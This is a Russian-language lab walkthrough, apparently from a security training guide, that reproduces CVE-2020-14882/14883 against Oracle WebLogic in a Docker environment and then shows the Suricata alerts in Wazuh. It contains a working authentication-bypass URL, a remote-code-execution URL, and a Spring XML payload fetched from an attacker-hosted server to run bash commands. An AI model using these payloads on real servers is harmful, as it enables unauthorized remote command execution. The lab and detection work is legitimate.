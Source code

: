 # CVE-2020-14882/3

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-14882](https://nvd.nist.gov/vuln/detail/CVE-2020-14882)
* [https://www.opencve.io/cve/CVE-2020-14882](https://www.opencve.io/cve/CVE-2020-14882)
* [https://nvd.nist.gov/vuln/detail/CVE-2020-14883](https://nvd.nist.gov/vuln/detail/CVE-2020-14883)
* [https://www.opencve.io/cve/CVE-2020-14883](https://www.opencve.io/cve/CVE-2020-14883)

Oracle WebLogic Server — ведущий в отрасли сервер приложений для создания корпоративных приложений с использованием стандартов Java EE.&#x20;

CVE-2020-14882 позволяет пользователям обходить аутентификацию в компоненте консоли администратора, а CVE-2020-14883 позволяет аутентифицированному пользователю выполнять любую команду в этой консоли.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:7001 будет доступна страница входа в консоль администратора

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для обхода аутентификации и реализации CVE-2020-14882 вставьте соответствующий URL в поисковую строку&#x20;

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

После реализации уязвимости нам не хватает привилегий для загрузки файлов

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

#### Метод 1

Обойти это можно, вставив соответствующий URL в поисковую строку с полезно нагрузкой "touch /tmp/success1"

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

#### Метод 2

Выполнить удаленную команду можно с помощью обращения к .xml файлу, содержащему внутри себя полезную нагрузку

Для этого вставьте следующее содержимое в ваш файл и сохраните его

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Затем с помощью Python3 поднимаем http-сервер на удаленной машине с помощью команды `python3 -m http.server <port>`&#x20;

Затем вставляем следующий URL в адресную строку

```
http://ваш-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://удаленный-ip:порт/rce.xml")
```

После отправки будет выполнено содержимое .xml файла, в данном случае будет создан файл /tmp/success2

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>


